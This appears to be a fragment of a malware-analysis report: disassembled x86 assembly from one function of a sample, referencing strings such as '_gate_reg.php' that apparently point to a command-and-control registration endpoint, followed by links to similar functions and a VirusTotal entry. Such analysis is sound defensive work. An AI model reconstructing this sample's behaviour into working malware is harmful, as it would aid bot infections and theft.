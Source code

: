 push str.video
push eax
lea eax,[ebp-0x284]
push eax
mov byte[ebp-4],0x32
call fcn.004029e3
add esp,0xc
mov ecx,eax
mov byte[ebp-4],0x33
mov eax,dword[ebp-0x494]
lea edi,[ebp-0x214]
call fcn.00402a1a
push str.av
push eax
lea eax,[ebp-0x1c0]
push eax
mov byte[ebp-4],0x34
call fcn.004029e3
add esp,0xc
mov ecx,eax
mov byte[ebp-4],0x35
mov eax,dword[ebp-0x480]
lea edi,[ebp-0x1dc]
call fcn.00402a1a
sub esp,0x1c
mov esi,eax
mov byte[ebp-4],0x36
mov eax,esp
mov dword[ebp-0x480],esp
call fcn.00401b7c
sub esp,0x1c
mov byte[ebp-4],0x37
mov ecx,esp
xor ebx,ebx
mov dword[ebp-0x494],esp
mov dword[ecx+0x14],0xf
mov dword[ecx+0x10],ebx
push str._gate_reg.php
mov byte[ecx],bl
call fcn.00401caf
sub esp,0x1c
mov byte[ebp-4],0x38
mov eax,esp
mov dword[ebp-0x498],esp
push eax
call fcn.0040318d
lea ecx,[ebp-0x188]
mov byte[ebp-4],0x52
call fcn.00401626
xor esi,esi
push ebx
inc esi
push esi
lea ecx,[ebp-0x188]
call fcn.00401cd0
push ebx
push esi
mov ecx,edi
call fcn.00401cd0
push ebx
push esi
lea ecx,[ebp-0x1c0]
call fcn.00401cd0
push ebx

[similar_1_ref]: /report/fcn.0041e847@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_2_ref]: /report/fcn.0040becc@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_4_ref]: /report/fcn.004183a4@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_5_ref]: /report/fcn.00406b6f@69b3c79878674ea715338a112bb5caa6
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6